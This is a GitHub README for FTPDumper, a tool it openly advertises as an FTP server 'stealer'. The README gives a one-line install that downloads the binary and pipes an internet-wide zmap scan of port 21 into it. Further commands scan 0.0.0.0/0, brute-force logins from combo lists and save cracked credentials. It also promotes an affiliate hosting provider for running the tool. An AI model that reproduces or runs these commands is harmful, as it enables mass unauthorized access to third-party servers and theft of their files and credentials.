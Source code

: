<p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - A FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<p align="center"><img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.ibb.co/JvtB5vh/Ftp-Features.png" width="1040" alt="features"></p>

## 📖 What is FTPDumper ?

FTPDumper is an easy-to-use yet advanced FTP server file stealer.
It can be utilized in massive FTP brute-force attacks, supporting various formats such as combo, pipe input, CIDR, files, and even a single IP address.

FTPDumper boasts a plethora of features, including:
- 💡 **Anti-Fake File Detection**: Utilizes advanced algorithms to detect and prevent the extraction of counterfeit files.
- 🔍 **Self-Implemented Scanner**: Employs an internally developed scanning mechanism to ensure thorough and efficient.
- 🖥️ **Modern and Sleek User Interface**: Offers a visually appealing and user-friendly interface for seamless navigation and operation.
- ⚡ **Fast and Memory-Safe Operation**: Executes operations swiftly while maintaining optimal memory usage to prevent system slowdowns or crashes.
- 🤝 **Smart Connection and Timeout Management**: Implements intelligent connection strategies and timeout configurations to make maximum accuracy and resource utilization.


## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#%EF%B8%8F-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/LthJcL8/image.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price

[//]: # ()
[//]: # ()
[//]: # (## Star history)

[//]: # ()
[//]: # (---)

[//]: # (<picture>)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: dark&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: light&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <img)

[//]: # (    alt="Star History Chart")

[//]: # (    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date")

[//]: # (  />)

[//]: # (</picture>)
